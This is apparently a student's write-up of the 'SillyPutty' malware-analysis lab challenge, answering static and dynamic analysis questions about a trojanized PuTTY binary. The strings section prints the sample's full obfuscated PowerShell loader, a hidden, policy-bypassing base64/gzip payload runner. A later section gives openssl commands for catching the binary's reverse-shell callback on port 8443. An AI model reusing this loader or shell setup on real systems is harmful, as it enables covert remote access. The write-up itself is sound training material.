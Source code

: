 # Challenge 1: SillyPutty

# Challenge Questions:
**Basic Static Analysis**

1) What is the SHA256 hash of the sample?<br />
Ans: SHA256- 0c82e654c09c8fd9fdf4899718efa37670974c9eec5a8fc18a167f93cea6ee83 <br />

2) What architecture is this binary?<br />
Ans: Windows 32-bit binary is the architecture of the given sample. This can be viewed in PEstudio <br />
![](https://github.com/Niyanth-guru/Challenge-1-Silly-Putty-writeup/assets/58947833/a669f237-bf2c-4380-8dc0-0ea7a778dcb7)

3) Are there any results from submitting the SHA256 hash to VirusTotal?<br />
Ans: 59 vendors and 2 sandboxes have flagged this file as malicious.
![VirusTotal](https://github.com/Niyanth-guru/Challenge-1-Silly-Putty-writeup/assets/58947833/da65e615-edfd-4ed9-9ae2-008f69828145)

4) Describe the results of pulling the strings from this binary. Record and describe any strings that are potentially interesting. Can any interesting information be extracted from the strings?<br />
Ans:  Powershell execution<br />

powershell.exe -nop -w hidden -noni -ep bypass "&(::create((New-Object System.IO.StreamReader(New-Object 
System.IO.Compression.GzipStream((New-Object 
System.IO.MemoryStream(,[System.Convert]::FromBase64String('H4sIAOW/UWECA51W227jNhB991cMXHUtIRbhdbdAESCLepVsGyDdNVZu82AYCE2NYzUyqZKUL0j87yU
lypLjBNtUL7aGczlz5kL9AGOxQbkoOIRwK1OtkcN8B5/Mz6SQHCW8g0u6RvidymTX6RhNplPB4TfU4S3OWZYi19B57IB5vA2DC/iCm/Dr/G9kGsLJLscvdIVGqInRj0r9Wpn8qfASF7
TIdCQxMScpzZRx4WlZ4EFrLMV2R55pGHlLUut29g3EvE6t8wjl+ZhKuvKr/9NYy5Tfz7xIrFaUJ/1jaawyJvgz4aXY8EzQpJQGzqcUDJUCR8BKJEWGFuCvfgCVSroAvw4DIf4D3XnKk
25QHlZ2pW2WKkO/ofzChNyZ/ytiWYsFe0CtyITlN05j9suHDz+dGhKlqdQ2rotcnroSXbT0Roxhro3Dqhx+BWX/GlyJa5QKTxEfXLdK/hLyaOwCdeeCF2pImJC5kFRj+U7zPEsZtUUj
mWA06/Ztgg5Vp2JWaYl0ZdOoohLTgXEpM/Ab4FXhKty2ibquTi3USmVx7ewV4MgKMww7Eteqvovf9xam27DvP3oT430PIVUwPbL5hiuhMUKp04XNCv+iWZqU2UU0y+aUPcyC4AU4ZFT
ope1nazRSb6QsaJW84arJtU3mdL7TOJ3NPPtrm3VAyHBgnqcfHwd7xzfypD72pxq3miBnIrGTcH4+iqPr68DW4JPV8bu3pqXFRlX7JF5iloEsODfaYBgqlGnrLpyBh3x9bt+4XQpnRm
aKdThgYpUXujm845HIdzK9X2rwowCGg/c/wx8pk0KJhYbIUWJJgJGNaDUVSDQB1piQO37HXdc6Tohdcug32fUH/eaF3CC/18t2P9Uz3+6ok4Z6G1XTsxncGJeWG7cvyAHn27HWVp+Fv
KJsaTBXTiHlh33UaDWw7eMfrfGA1NlWG6/2FDxd87V4wPBqmxtuleH74GV/PKRvYqI3jqFn6lyiuBFVOwdkTPXSSHsfe/+7dJtlmqHve2k5A5X5N6SJX3V8HwZ98I7sAgg5wuCktlcW
PiYTk8prV5tbHFaFlCleuZQbL2b8qYXS8ub2V0lznQ54afCsrcy2sFyeFADCekVXzocf372HJ/ha6LDyCo6KI1dDKAmpHRuSv1MC6DVOthaIh1IKOR3MjoK1UJfnhGVIpR+8hOCi/WI
Gf9s5naT/1D6Nm++OTrtVTgantvmcFWp5uLXdGnSXTZQJhS6f5h6Ntcjry9N8eXQOXxyH4rirE0J3L9kF8i/mtl93dQkAAA=='))),[System.IO.Compression.CompressionMod
e]::Decompress))).ReadToEnd()))"
GDI32.dll


5) Describe the results of inspecting the IAT for this binary. Are there any imports worth noting?<br />
Ans: There were a lot of API calls that are used by threat actors to carry out their malicious activities. I’m mentioning some and the rest I will add in as a screenshot.
   - CreateWindowExA(USER32.dll)
   - FindWindowA(USER32.dll)
   - ShellExecuteA(SHELL32.dll)
![IAT](https://github.com/Niyanth-guru/Challenge-1-Silly-Putty-writeup/assets/58947833/a2fba0f5-7f60-4bcb-9239-52627e3ffff7)<br />

We see a lot of API calls that are frequently used by threat actors while developing malware. But on further studying I got to know that these API calls are also used by the putty software. So the IAT table did not give much info.


6) Is it likely that this binary is packed?<br />
Ans: No drastic change in the size of virtual data and size of Raw data. Implying that the binary may not be packed.
Also IAT listed out all the API calls taking place in the program thereby indicating that the program may not be packed.<br />
<br />

**Basic Dynamic Analysis**

1) Describe initial detonation. Are there any notable occurrences at first detonation? Without internet simulation? With internet simulation?<br />
Ans: After initial detonation. The below observed output is without inetsim running the putty configuration dialog box appears and the powershell window appears and disappears.<br />
![initial_detontation](https://github.com/Niyanth-guru/Challenge-1-Silly-Putty-writeup/assets/58947833/9218e16c-ba1e-4cc0-844f-d72c4c752021)

2) From the host-based indicators perspective, what is the main payload that is initiated at detonation? What tool can you use to identify this?<br />
Ans: This powershell is executed at detonation which we got to know from static analysis(Refer the powershell script in Q4 of static analysis)
Now if we take the base64 string to REMnux and decode if and store the output to a file we get a compressed file<br />
![payload_finding](https://github.com/Niyanth-guru/Challenge-1-Silly-Putty-writeup/assets/58947833/e59e8583-4621-4301-a883-9beed38e221c)<br />

Extracting the file and opening it gave me the actual decompiled payload that was run during execution of the putty.exe program. We also find a lot of indicators in this file itself<br />
![payload](https://github.com/Niyanth-guru/Challenge-1-Silly-Putty-writeup/assets/58947833/9aefae4b-9273-4a4d-9e79-67032bf65f2d)

 3) What is the DNS record that is queried at detonation?<br />
Ans: The answer is provided in the following screenshot. This was captured using wireshark.<br />
![wireshark_dns_catcher](https://github.com/Niyanth-guru/Challenge-1-Silly-Putty-writeup/assets/58947833/6ad30dbb-91f5-459d-b0aa-f1d1fa9a5b92)<br />
DNS:-  bonus2.corporatebonusapplication.local

 4) What is the callback port number at detonation?<br />
Ans: At detonation the callback port is 8443.

5) What is the callback protocol at detonation?<br />
Ans: The callback protocol is TLS/SSL. This can be found via wireshark as the DNS resolves the packets that follow gives us details.

6) How can you use host-based telemetry to identify the DNS record, port, and protocol?<br />
Ans: I was not sure of how to do that. Please refer to the answers file in the repo 

7) Attempt to get the binary to initiate a shell on the localhost. Does a shell spawn? What is needed for a shell to spawn?<br />
Ans: Since the FlareVM machine does not have the capability to acknowledge to the TLS Client Hello message. We might find it difficult to spawn a shell. Even in the walkthrough video for this challenge the instructor told we could set this up in kali and try spawning a shell. I tried and failed.
So when I was going through my course discord I found a procedure to spawn a shell which I will discuss below. First goto the etc\hosts file and point to the REMnux machine for the domain contacted by the binary.<br />
![etc-hosts](https://github.com/Niyanth-guru/Challenge-1-Silly-Putty-writeup/assets/58947833/ddbb5f97-9689-48dd-be7d-22e2cad766b7)

Then, on the REMnux box, you have to generate a self-signed SSL cert and private key.<br />
_openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes_ 

Then listen for the callback with openssl <br />
_openssl s_server -cert cert.pem -key key.pem -accept 8443_

Run the binary<br />
![run-binary](https://github.com/Niyanth-guru/Challenge-1-Silly-Putty-writeup/assets/58947833/a6c3c3f1-1784-47a2-acf7-65c2abb9f251)

Jump over to your REMnux box and you will see a shell spawned.
![reverse_shell](https://github.com/Niyanth-guru/Challenge-1-Silly-Putty-writeup/assets/58947833/543b4876-0ab7-482f-89a1-a9caef821f70)









